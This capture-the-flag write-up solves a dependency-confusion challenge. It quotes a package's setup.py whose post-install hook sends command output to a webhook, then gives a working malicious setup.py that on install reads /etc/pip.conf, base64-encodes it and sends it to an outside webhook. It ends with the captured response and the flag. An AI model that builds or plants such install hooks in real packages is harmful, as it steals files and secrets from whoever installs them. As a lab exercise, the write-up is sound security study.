 ```yaml
---
layout: post
title: "[SecurinetQuals2K21] Hack The Empire"
author: Green-Avocado
---
```


# Hack The Empire

## Description

An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.

̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

Author: TheEmperors

## Solution

A quick Google search leads us to this blog post: https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/

![Blog Post](assets/images/securinetquals2021/hacktheempire/blog.png?raw=true)

We can gather that the company is downloading packages from a private repository that match the following regex: `ctf_q21_empire_tmp_[a-z0-9_]{5,10}`

They also reveal the structure of their `pip.conf` file:

```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

Due to the behaviour of the `extra-index-url` option, pip will search their private repository in addition to the public repository, prioritizing them based on version number.

Therefore, we can trick the server into downloading a mallicious package by creating one that matches the regex with a sufficiently high version number.
We care told the location of the flag file, so we can read the flag as part of the install script.
To retreive the contents, we can use an http request containing the contents encoded in base64.

Additionally, if we search for the start of the regex, we find a removed package on PyPI, uploaded by TheEmperors.
Using Google's webcache feature, we can examine the repository despite it being removed:

https://webcache.googleusercontent.com/search?q=cache:N6A2lqcEQtcJ:https://pypi.org/project/ctf-q21-empire-tmp-bw13434/0.0.9/+&cd=1&hl=en&ct=clnk&gl=ca&client=firefox-b-d

We can download the contents of this package and modify it to work with out exploit.
The latest version of the package is [ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz](https://files.pythonhosted.org/packages/ad/17/5f0bbb9f170401e8d06b7ed15af58c5349d16622e18df196a7ed85b809fb/ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz).

Let's examine the `setup.py` script:

```py
from setuptools import setup
import os
from setuptools.command.install import install

setup(
    name='ctf-q21-empire-tmp-bw13434',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    )

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?hehe="+os.popen("id").read()) #cat /flag.txt | base64").read())
```

The `setup` call appears ordinary, however, there is an http request within the `PostInstallCommand` function.
We can see that it sends a request to a webhook containing the output of `id`.
Also, contained in a comment is a command that conveniently reads the flag file and converts it to base64.
We can modify this function to send the flag instead of the id, and we change the first request parameter to send it to a webhook controlled by us.
Importantly, we have to move the function declaration to above the call to `setup`, otherwise it will not be defined during the setup and thus will not be run.

I also changed the name of the package in hopes that it would not overlap with another package of theirs with a greater or equal version.
The package is relatively small, so all other files were updated to match the new package name.

## Exploit

```py
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://enc2i9ljmjy100e.m.pipedream.net/?hehe="+os.popen("cat /etc/pip.conf | base64").read())

setup(
    name='ctf-q21-empire-tmp-1337420',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand,
        },
    )
```

Within 5 minutes, we get a request with some data encoded in base64:

```
VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs
IGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo
dHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2
MGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw
cGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f
eERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt
b3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z
IG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug
YXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz
IGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg
LS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91
IGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl
ZC4=
```

Which can be decoded into:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

## Flag

`Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`

